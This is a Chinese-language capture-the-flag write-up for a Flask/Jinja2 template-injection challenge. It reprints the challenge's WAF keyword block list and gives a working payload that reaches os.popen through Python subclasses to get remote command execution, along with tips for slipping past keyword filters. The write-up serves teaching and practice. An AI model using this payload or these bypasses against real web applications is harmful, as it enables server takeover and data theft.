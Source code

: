 # CheatGPT

好像被有的同学误解成了 SQL 注入/提示词注入，实际上是一个有 WAF 的 SSTI（模板注入）。

观察这位假 GPT 的输出，会将你输入的内容在页面上重复显示一遍，这就有可能是一个模板注入。具体关于什么是模板注入可以自己搜博客学习，简单来说你的输入会被传给一个预先写好的 HTML 文件当中解析，你嵌入模板的渲染语句就可以访问到他的运行时环境（本题是 flask 的 Jinja2 模板上下文，一个语法上类 python 的上下文环境）从而实现「任意命令执行（RCE）」

首先需要解决的问题是知道这是一个什么模板引擎，有很多办法，你可以拿常见的模板渲染格式去测试，比如：`{{"7" * 7}}` ，也可以做一个简单信息搜集，例如很多 Web 服务会在 HTTP 响应头中写上服务器的一些 banner 信息：

![image-20240520165827034](img/image-20240520165827034.png)

F12 打开开发者工具，进入 Network 模块，刷新页面后该模块会记录所有的流量信息，在访问题目页面的响应头中能看到关键字是 Werkzeug+Python，那大概率是 flask+Jinja2，搜索相关 SSTI 的博客学习如何注入即可。

本题设置了一个 WAF，对所有请求参数和 POST 传入的 query 分别做了过滤：

```python
def waf_query(q):
    nop = [
        "\"", 
        "\'", 
        "+", 
        "join"   
           ]
    for elm in nop:
        if elm in q:
            return elm
    return None

def waf_args():
    nop = [
        "rm", 
        "echo", "<", ">", "export", "printenv", 
        "env",
        "proc", 
        "import"
        ]
    for v in request.args.values():
        for elm in nop:
            if elm in v:
                return elm
            
    for v in request.form.values():
        for elm in nop:
            if elm in v:
                return elm
    return None
```

为了降低难度将触发 WAF 的具体内容打印了出来（黑盒测试的 Web 在缺少 Fuzz 的情况下是很恶心人的），绕的手段也比较多，这里提供一种思路是用 flask 的 `request.args` 从请求参数中拿到字符串，利用"_wrap_close"类实现 RCE：

POST 访问：`http://IP:PORT/?cls=_wrap_close&cmd=set`，传参：

```python
query={%for c in [].__class__.__base__.__subclasses__()%}{%if request.args.cls == c.__name__ %}{{c.__init__.__globals__.popen(request.args.cmd).read()}}{%endif%}{%endfor%}
```

往 cmd 里输入命令就能执行，flag 在环境变量里，`env, export` 等被过滤了，还能用 set。也可以通过管道、编码或者反引号等方法绕过关键字的过滤。